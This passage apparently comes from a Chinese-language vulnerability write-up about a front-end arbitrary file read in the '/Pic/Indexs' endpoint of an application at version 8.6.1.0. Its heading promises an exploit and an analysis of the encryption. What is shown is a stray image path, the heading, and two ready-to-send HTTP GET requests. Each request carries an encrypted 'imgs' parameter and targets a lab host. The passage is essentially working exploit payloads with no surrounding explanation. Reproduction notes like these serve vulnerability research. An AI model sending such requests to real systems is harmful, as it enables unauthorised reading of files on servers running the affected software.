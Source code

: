 ![](assets/1706859049-7a65bc1a5f468cbe9089d47909246760.png)

## 三、前台文件读取加密 exp 编写以及漏洞加密流程调试分析--/Pic/Indexs-key 的任意文件读取 -8.6.1.0

### 复现

```php
GET /Pic/Indexs?imgs=jCXF6i9anXA0lkOVC3FrBg==GG HTTP/1.1
Host: 10.10.11.184:8088
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

```php
GET /Pic/Indexs?imgs=Vieapcg5Db3PFro9X1GI0QdikpPVe6TmlgvNfjPkqO2+ZjprzMdy0Q==GG HTTP/1.1
Host: 10.10.11.184:8088
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

